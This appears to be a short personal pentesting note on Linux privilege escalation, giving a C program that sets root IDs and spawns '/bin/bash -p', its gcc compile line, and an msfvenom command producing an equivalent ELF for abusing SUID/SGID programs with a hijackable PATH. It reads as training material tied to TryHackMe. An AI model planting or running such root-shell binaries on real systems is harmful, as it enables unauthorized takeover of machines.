 # How to Load a Shell with a Simple Executable

It’s actually trivial to write a C program that loads up a shell.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void main() {
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -o /path/to/malicious /path/to/malicious.c
```

Note that this is *almost* identical to the [LD_PRELOAD trick](exploiting-ld-preload.md); the differences are:

* Use `main()` instead of `_init()` as our entry point.
* Compile without -shared and -nostartfiles.

A simple binary like this is useful for exploiting SUID/SGID applications that call other executables from part of the PATH that we control.

## Metasploit

The [msfvenom](metasploit.md) tool  can generate binaries with essentially the same functionality as above.

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
```

## References

* [TryHackMe - Complete Beginner](tryhackme-complete-beginner.md)

- - - -

👤 Nathan Acks
📅 November 2, 2021
